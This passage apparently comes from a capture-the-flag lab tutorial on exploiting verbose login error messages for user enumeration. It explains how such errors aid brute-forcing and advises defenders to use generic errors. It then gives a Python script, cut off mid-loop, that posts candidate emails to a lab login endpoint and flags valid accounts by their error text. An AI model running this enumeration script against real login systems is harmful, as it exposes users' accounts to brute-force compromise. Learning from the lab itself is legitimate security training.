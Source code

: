 Verbose errors play a pivotal role in authentication attacks, complementing enumeration and brute-forcing strategies:

- **User Enumeration**:
  - Discovering valid usernames through error messages reduces guesswork for brute-force attacks.
- **Exploiting Verbose Errors**:
  - Insights about password policies or account lockout mechanisms enhance the precision of brute-force techniques.

---

## Summary

Verbose errors are like breadcrumbs, leading attackers deeper into the system. By exploiting these errors, attackers can:

- Discover sensitive information.
- Tailor their strategies for brute-force attacks.
- Potentially compromise security in ways that might go unnoticed until it’s too late.

Defenders must ensure that error messages are generic and avoid revealing unnecessary details, reducing the risk of exploitation.

## Automation

Below is a Python script that will check for valid emails in the target web app. Save the code below as script.py.

```py
import requests
import sys

def check_email(email):
    url = 'http://enum.thm/labs/verbose_login/functions.php'  # Location of the login function
    headers = {
        'Host': 'enum.thm',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://enum.thm',
        'Connection': 'close',
        'Referer': 'http://enum.thm/labs/verbose_login/',
    }
    data = {
        'username': email,
        'password': 'password',  # Use a random password as we are only checking the email
        'function': 'login'
    }

    response = requests.post(url, headers=headers, data=data)
    return response.json()

def enumerate_emails(email_file):
    valid_emails = []
    invalid_error = "Email does not exist"  # Error message for invalid emails

    with open(email_file, 'r') as file:
        emails = file.readlines()

    for email in emails:
        email = email.strip()  # Remove any leading/trailing whitespace
        if email:
```